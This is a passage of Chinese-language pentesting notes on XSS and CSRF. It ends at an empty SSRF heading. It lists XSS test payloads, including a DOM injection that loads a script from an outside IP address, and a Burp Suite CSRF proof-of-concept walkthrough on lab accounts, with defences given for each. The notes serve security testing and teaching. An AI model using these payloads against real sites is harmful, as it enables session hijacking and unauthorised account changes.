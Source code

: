 对提交页面的各个参数依次进行xss注入测试，判定是否存在xss漏洞，如`?phone=176"><script>alert(/xxx/)</script><!--&id=1&name=2`

## 储存型

在页面表单提交过程中，依次对提交参数进行xss测试，常见位置如居住地址，机器人客服。

## 常用测试语句

```html
'><script>alert(/xxx/)</script><!--
" onerror=alert(/xxx/) t="
" onmousemove=alert(/xxx/) t="
'><img src=123# onerror=alert(1)>
'><iframe src=http://www.baidu.com><'
</textarea><script>alert(123)</script><!--		存储型
```

## DOM型

```html
'><script>var src=document.createElement('script');src.setAttribute('src','http://169.254.115.76/test.js');document.body.appendChild(src);</script>		远程调用test.jsp:alert(/xss/);脚本
```

常见位置`http://test.com/index.html?1);var src=document.createElement('script');src.setAttribute('src','http://169.254.115.76/test.js');document.body.appendChild(src);(1`

## 防御方法

- 配置CSP
- cookie设置http only
- 对特殊符号进行HTML实体编码`& < > " ' / \ ; [ ] ( )`

# 跨站请求伪造（csrf）

## 检测方式

查看页面对所提交的参数中是否包含唯一性token信息或验证来源页referer头。如果不存在参数，则有csrf漏洞。如果存在参数，删除referer头信息并多次重放，查看是否执行成功，如添加账号、修改个人信息、修改密码、转账，如果成功，则有csrf漏洞。

首先用火狐登录vince账户，抓到修改邮箱的数据包，放到repeater，右键Engagement tools->Generate CSRF POC->test in browser->copy，用谷歌登录allen账户，挂bp代理用谷歌打开复制的网址，Submit request，成功修改allen邮箱为vince邮箱

## 防御方法

- 检测HTTP header中的referer字段，服务器拒绝响应referer不是自己的站点
- 在重要请求中的每一个url和所有表单中添加token
- 修改密码等关键操作添加验证码确认

# 服务端请求伪造（ssrf）

